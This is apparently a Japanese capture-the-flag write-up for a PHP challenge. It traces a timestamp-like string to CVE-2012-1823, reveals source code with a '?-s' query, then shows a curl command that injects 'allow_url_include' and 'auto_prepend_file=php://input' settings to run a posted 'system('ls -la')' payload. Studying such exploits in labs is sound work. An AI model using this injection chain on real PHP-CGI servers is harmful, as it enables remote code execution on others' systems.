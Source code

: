 # Hypertext Preprocessor

## 調査
`curl -i`コマンドで謎の文字列が表示されているURLをリクエスト
リクエストした時刻(GMT)と表示されている文字列が関係しそう。

- 3-4桁目:2024？
- 5-6桁目:日付？
- 7-9桁目:GMTと一致。

ただ、先頭の2つの要素が何を表示しているのかが不明。


curlコマンドを実行したレスポンスヘッダを見てみると、「x-powered-by」の文字列があり、
どうやらPHPで動いていて、さらにバージョンが古いので何か仕掛けがありそう。
```
$ curl "https://ctfq.u1tramarine.blue/q12/"  -i
HTTP/2 200
server: nginx
date: Mon, 14 Oct 2024 04:48:26 GMT
content-type: text/html
x-powered-by: PHP/5.4.1
```

そこで、`PHP 2012:1823`という文字列で検索を行ったところ、PHPの脆弱性の番号(CVE)と一致。
この脆弱性について調べてみた。

この脆弱性は、「CGI版PHPにリモートからスクリプト実行」することができる脆弱性、とのこと。

## 解答
この脆弱性を利用して、webページとして表示される前のソースコードを確認する場合は、以下のURLにアクセスする。
https://ctfq.u1tramarine.blue/q12/index.php?-s

表示したところ、以下のプログラムが出力された。
```
<?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
```

以上より、index.phpがある階層のファイルを確認すれば良さそうなので、bodyとしてPHPプログラムを渡して、
ページが表示される前に、実行されるようにする。

```body.txt
<?php system('ls -la'); exit;
```

この脆弱性を利用して、
curl -d @body.txt "https://ctfq.u1tramarine.blue/q12/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp://input"